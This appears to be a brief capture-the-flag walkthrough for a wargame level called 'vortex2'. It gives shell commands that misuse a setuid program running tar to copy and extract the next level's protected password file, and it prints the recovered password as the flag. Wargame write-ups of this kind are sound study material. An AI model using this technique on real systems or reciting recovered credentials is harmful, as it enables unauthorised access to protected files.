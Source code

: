 ```yaml
---
layout: default
title: vortex2
---
```




in this level, we exploit the tar archive by archiving `vortex3` password file, and when extracting, we can read it.

```
cd /etc/vortex_pass/
/vortex/vortex2 vortex3
tar xvf /tmp/ownership.$\$.tar
```

![image](./images/level2.png)

**Flag:** ***`YAVzRBMI4`*** 
